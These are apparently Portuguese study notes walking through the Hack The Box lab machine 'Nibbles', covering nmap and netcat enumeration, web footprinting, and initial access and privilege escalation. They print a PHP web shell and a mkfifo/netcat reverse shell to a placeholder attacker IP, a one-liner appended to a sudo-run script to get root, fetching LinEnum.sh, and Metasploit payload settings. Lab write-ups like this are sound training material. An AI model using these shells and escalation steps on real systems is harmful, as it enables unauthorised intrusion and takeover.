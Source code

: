 # Attacking Your Fist Box

## Nibbles - Enumeration
https://www.youtube.com/watch?v=s_0GcRGv6Ds - Ippsec Video
https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html - Caminho

Nosso primeiro passo quando estiver com algum alvo é realizar um enumeração
Existe algumas formas de pentesting:
Black-Box -> Quando não tem nenhuma informação dada pelo solicitante
Grey-Box -> Foi dada alguma informação como endereços ip's e tipos de SO
White-Box -> Foi dada muita informação, só para testar e tals.

### Nmap e Netcat (nc)
Sempre tente começar com Nmap scan, ele consegue pegar informações dos serviços
que estão sendo executados nas máquinas, então com os serviços é possível buscar
algum exploit para tentar entrar na máquina e tudo mais.

1. com o seguinte comando podemos escanear as portas essenciais de serviços conhecidos
> nmap -sV --open -oA nibbles_initial_scan <ip address>
  O -oA ele pega o output e coloca dentro de um arquivo XML
2. Podemos ver quais portas um modo de scan analisa.
> nmap -v -oG -
  Ele mostra as portas que serão analisadas
3. Depois de pegar as informações das portas padrões, podemos utilizar um nmap -p- para tentar pegar qualquer serviço que não esteja sendo executado em alguma porta padrão
> nmap -p- --open -oA nibbles_full_tcp_scan <ip address>
  Podemos deixar isso rodando em background e ir para outra coleta de informação.
4. Use o netcat para pegar os grab banner que estão rodando no serviço, para verificar as info vindas do nmap
> nc -nv <ip  address> <port>
5. Depois que a varredura de todas as portas estiver concluida, está na hora de fazer uma varredura de script nmap
Esst tipo de varredura pode ser intrusiva, então saiba exatamente o que está acontecendo.
> nmap -sC -p 22,80 -oA nibbles_script_scan <ip address>
  Como a gente já sabe qual porta está aberta, podemos escolher para economizar tempo.
6. É possível utilizar tbm de script dentro do nmap
> nmap -sV --script=http-enum -oA nibbles_nmap_http_enum <ip address>

## Nibbles - Web Footprinting
1. Nós podemos utilizar o whatweb, para poder identificar o que tá rodando no ip
> whatweb <ip address>
2. Podemos acessar o site pela web ou então pelo curl, na web podemos ter referência visual e pelo curl podemos ter acesso ao html diretamente.
> curl http://<ip address>
3. No html é informado algo como nibbledblog, podemos utilizar o curl para pegar essa info
> curl http://<ip address>/nibbleblog
> whatweb http://<ip address>/nibbledog
  Isso pega info's sobre o que está sendo utilizado nesse site (Tudo que está sendo utilizado)
4. Directory Enumeration
  1. Para utilizar a enumeração de diretórios, podemos utilizar o gobuster.
  > gobuster dir -u http://<ip address>/nibbleblog --wordlist /usr/share/dirb/wordlists/common.txt
  2. Encontrou um XML? Então curl nele juntamente com | xmllint --format - para formata-lo
  > curl -s http://<ip address>/nibbleblog/content/private/users.xml | xmllint --format -
Sempre que estiver enumerando algo, busque guardar essas informações e o passo a passo que
levou você até aquela informação, pois muitas vezes você estará perdido, então é muito
útil ter essas infos por perto para se localizar,

## Nibles - Initial Foothold
1. Interessante como o upload de um script é uma vulnerabilidade alta para esses casos
```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f") ?>
```
Adicione o ip do vpn - interface tun0 e a porta que você quiser
2. chame a imagem novamente pelo curl, ai ele retorna um shell para o seu nc que estiver
escutando na sua porta :3 
3. Conquiste um shell mais bonito TTY, utilizando o python
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Nibbles - Privilege Escalation
1. Podemos utilizar unzip para verificar o que tem em arquivos zip
> unzip personal.zip
2. Podemos abrir um servidor em python para disponibilizar arquivos
> sudo python3 -m http.server 8080
3. No alvo, podemos fazer um wget ou curl para pegar o arquivo
> wget http://<your ip>:8080/LinEnum.sh
4. Seria uma boa verificar quais comandos é possível executar utilizando sudo
> sudo -l
5. Quando é possível executar alguns .sh como root, então vale a pena adicionar um 
shell reverso no final do arquivo .sh para que possamos ter acesso como root
> echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> <port> >/tmp/f' | tee -a monitor.sh
  É crucial que você adicione o comando no final do arquivo, evitando sobreescreve-lo, pois pode causar um efeito inesperado, e sempre tente fazer um backup do arquivo, para evitar complicações.
6. Execute o shell como sudo
> sudo /home/nibbler/personal/sutff/monitor.sh
7. lembre-se de ficar escutando utilizar o netcat na porta determinada do script
> nc -lvnp <port>

## Nibbles - Alternate User Method - Metasploit
1. É possível utilizar o metasploit nesse modo tbm, primeiro acione o console.
> msfconsole
2. Pesquise o exploit
> search exploit nibbleblog
3. utilize o primeiro exploit e set o IP do host no rhosts e no lhost adicione o ip do seu vpn
> use 0
> set rhosts <ip alvo>
> set lhost <ip vpn>
4. Precisamos setar o username e a senha, além da uri do alvo
> set username admin
> set password nibbles
> set targetuir nibbleblog
5. Também precisamos informar um shell reverso que queremos carregar
> set payload generic/shell_reverse_tcp
